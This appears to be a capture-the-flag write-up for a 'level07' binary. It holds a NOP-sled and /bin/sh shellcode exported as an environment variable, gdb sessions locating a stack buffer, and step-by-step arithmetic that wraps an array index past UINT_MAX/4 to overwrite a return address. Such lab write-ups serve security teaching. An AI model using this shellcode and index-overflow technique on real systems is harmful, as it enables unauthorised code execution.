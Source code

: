 ```Shell
export SHELLCODE=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
```

Address of the bufffer:

```
(gdb) b *0x080489a1       <====================== Breakpoint at the end of main
Breakpoint 4 at 0x80489a1
(gdb) r
Starting program: /home/users/level07/level07
...
Input command: store
 Number: 1234
 Index: 1
 Completed store command successfully

Breakpoint 4, 0x080489a1 in main ()
(gdb) i proc map
process 1688
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fd8000 0xf7fdb000     0x3000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xfffdd000,0xffffdfff, 1234
0xffffd548
1 pattern found.
```

Here we have the pattern at `0xffffd548` which is at the index 1 (\* 4) of the buffer.
So the start of the buffer is at `0xffffd548` - 4 : `0xffffd544`

0xffffd544 ===> 4294956356

buff + 400 = 0xFFFFD6D4, this is the end of the buffer

(gdb) x/20x 0xffffd6d4
0xffffd6d4: 0x00000000 0x64616572 0x00000000 0x00000000
0xffffd6e4: 0x00000000 0x00000000 0x599ca500 0xf7feb620
0xffffd6f4: 0x00000000 0x08048a09 0xf7fceff4 0x00000000
0xffffd704: 0x00000000 0x00000000 0xf7e45513 0x00000001
0xffffd714: 0xffffd7a4 0xffffd7ac 0xf7fd3000 0x00000000

try : 0xffffd704 + 8
4294956812

buf 0xffffd544 ===> 4294956356

[address where to write] - [address of the buffer]
4294956356 - 4294956812 = -456
-456 /4 = -114

114 modulo 3 == 0

So we will do an overflow:
To counter the \* 4 we do a
UINT_MAX / 4 : 4294967295 /4 ~~ 1073741824

1073741824 + 114
1073741938

Address in the middle of the shellcode : 0xffffd5c8
